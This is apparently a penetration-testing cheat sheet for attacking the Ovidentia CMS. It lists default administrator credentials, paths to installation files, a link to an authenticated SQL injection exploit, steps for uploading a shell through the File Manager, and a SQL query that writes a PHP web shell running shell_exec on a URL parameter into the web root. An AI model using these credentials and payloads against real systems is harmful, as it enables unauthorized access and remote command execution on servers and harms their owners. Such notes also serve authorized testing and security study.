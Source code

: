 # ovidentia

## Default Creds

```bash
# http://chantal.jeannin.free.fr/install/install.txt
admin@admin.bab:012345678
```

## Interesting Path

```bash
/install/install.txt
/install/babinstall.mysql
```

## SQL injection

v 6.0 Authenticated

```
https://www.exploit-db.com/exploits/49707
```

### File Manager Upload (Authenticated)

once logged in, File Manager (on left) > Add Folder > Upload shell

## Shell directly via SQL

```
select "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/wamp/www/php/web.php'
```

